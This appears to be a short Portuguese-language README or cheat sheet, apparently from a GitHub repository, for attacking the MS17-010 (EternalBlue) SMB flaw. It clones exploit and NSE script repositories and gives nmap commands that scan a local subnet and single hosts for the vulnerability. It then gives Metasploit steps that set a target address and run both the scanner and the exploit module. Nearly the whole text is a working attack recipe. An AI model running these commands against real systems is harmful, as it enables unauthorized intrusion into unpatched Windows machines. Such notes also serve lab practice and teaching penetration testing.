 git clone https://github.com/vaamonde/nmap-nse-scripts
 
git clone https://github.com/vaamonde/exploit

Verificar versão do NMAP:	nmap --version<br>
				man nmap<br>
							
nmap -d -sC -p445 --open --max-hostgroup 3 --script nmap-nse-scripts/scripts/smb-vuln-ms17-010.nse localhost<br>

nmap -d -sC -p445 --open --max-hostgroup 3 --script nmap-nse-scripts/scripts/smb-vuln-ms17-010.nse 192.168.1.0/24<br>

nmap -d -sC -p445 --open --max-hostgroup 3 --script nmap-nse-scripts/scripts/smb-vuln-ms17-010.nse 192.168.1.150<br>

Atualizar o Metasploit:		msfupdate<br>
Acessar o Metasploit:		msfconsole<br>
Acessar o Modo Scan:		use auxiliary/scanner/smb/smb_ms17_010<br>
				show options<br>
				set rhosts 192.168.1.1<br>
				exploit<br>
							
Acessar o modo Exploit:		use exploit/ms17_010/ms_17_010<br>
				show options<br>
				set rhosts 192.168.1.1<br>
				exploit<br>

